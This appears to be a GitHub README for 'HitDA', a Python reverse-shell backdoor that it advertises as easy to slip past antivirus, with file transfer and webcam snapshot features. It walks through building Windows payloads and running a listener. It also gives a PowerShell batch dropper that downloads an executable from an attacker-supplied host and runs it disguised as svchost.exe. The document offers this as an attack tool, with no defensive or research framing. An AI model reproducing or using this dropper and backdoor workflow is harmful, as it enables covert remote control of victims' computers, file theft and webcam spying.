 # HitDA
HitDA is a Multi-Function backdoor based on TCP Reverse Shell write in Python3 for Kali Linux.
It is easy to bypass the **AV-Software**.In addition to the basic reverse shell function
, you can also use some powerful functions which are similar to Meterpreter.
Like **File Download/Upload**, **Webcam snapshot**, I will continue to add more function
 later.
 
## Setup
````
git clone https://github.com/HalukShan/HitD.git
````
 You need to install some dependencies on your Kali Linux, Use
 ````
cd HitDA; pip3 install -r ./requirements.txt
````
And install `pyinstaller`
```
pip3 install pyinstaller
```
Next install `docker-pyinstaller`, this tool help you generate a 
Windows `.exe` file more easily, but you should install docker first.
Now I give the complete steps below:

Add Docker PGP Authkey
````
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
````
Config Docker APT
```
echo 'deb [arch = amd64] https://download.docker.com/linux/debian buster stable'| sudo tee /etc/apt/sources.list.d/docker.list
```
Update apt and install
```
sudo apt-get update; sudo apt-get install docker-ce
```
Enable docker
```
sudo systemctl enable docker
```
After complete these steps, you can download `docker-pyinstaller`:
```
cd HitDA; git clone https://github.com/cdrx/docker-pyinstaller.git
```
Now you've done all the steps

## Usage
```
cd HitDA
```
Run the main script
```
python3 HitDA.py
```
Now you can see the menu
```
[*] Starting HitD...
[+] Init Success


    __    __   __  .___________. _______       ___      
   |  |  |  | |  | |           ||       \     /   \     
   |  |__|  | |  | `---|  |----`|  .--.  |   /  ^  \    
   |   __   | |  |     |  |     |  |  |  |  /  /_\  \   
   |  |  |  | |  |     |  |     |  '--'  | /  _____  \  
   |__|  |__| |__|     |__|     |_______/ /__/     \__\ 
                                                        

author: HalukShan
 =========================================================
||                     Menu Option                       ||
||                                                       ||
|| [0] Generate Script                                   ||
|| [1] Start Listening                                   ||
|| [9] Exit                                              ||
 =========================================================
```
When you choose 0, you can choose the platform you want, and choose the script with webcam snap function
or not, the webcam function will increase the script size to about
**50MB**, otherwise, it's about **5MB**. 

You can also use the **powershell** 
script to automate download the script and execute, it will be more
anonymous and customizable. Like:
````
mkdir C:\tmp
cd C:\tmp
powershell $client = new-object System.Net.WebClient;$client.DownloadFile('http://youripordomain/script.exe','svchost.exe');
svchost.exe
````
Save as .bat file, and use battoexe to generate a small exe file.

### Listening
Choose option 1 to start the listening mode, enter your listening host
and port, then wait the connection. When successfully connect to the cmd shell, you can use some command like

Download the specified remote file and save as local filename 
```
download remote_filename local_filename
```

Webcam snapshot and save as filename
```
webcam_snap filename
```

There are some common usages of cmdshell
```
cd path
mkdir dirname
echo "content" >> filename
del filename
tasklist
taskkill /PID pid /F
netstat
```

##TroubleShoot
If you got the below error message when generating
```
Failed to establish a new connection: [Errno 11002] getaddrinfo failed')': /simple/opencv-python/
```
Adding Google DNS to your local config
```
vim /etc/resolv.conf
```
Add
```
# Google IPv4 nameservers
nameserver 8.8.8.8
nameserver 8.8.4.4
```

